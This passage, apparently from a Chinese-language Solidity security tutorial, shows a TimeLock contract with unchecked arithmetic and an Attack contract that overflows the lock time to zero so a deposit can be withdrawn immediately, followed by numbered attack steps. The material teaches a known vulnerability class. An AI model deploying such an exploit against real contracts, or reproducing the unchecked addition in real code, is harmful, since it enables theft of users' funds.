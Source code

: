 ```solidity

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

`TimeLock` 合约的作用是锁定质押的币至少 1 星期的时间；`Attack` 通过精心构造一个值，使得在 `TimeLock.increaseLockTime` 中将这个值与 `TimeLock.lockTime` 相加后，`TimeLock.lockTime` 溢出变成了 0 :
```solidity
    function increaseLockTime(uint _secondsToIncrease) public {
        // 精心构造 _secondsToIncrease 后，lockTime[msg.sender] 与其相加后变成 0
        lockTime[msg.sender] += _secondsToIncrease; 
    }
```
构造的方法都是简单的数学运算加减推导，在示例中的注释已经写得很清楚了，这里就不再说了。

**攻击步骤**：  
1. 部署 `TimeLock` 合约
2. 使用 `TimeLock` 合约的地址部署 `Attack` 合约
3. 使用 1 ETH 调用 `Attack.attack` 函数
4. 虽然 `Attack.attack` 函数会质押 1 ETH 到 `TimeLock` 中，但它可以立即取回质押的币
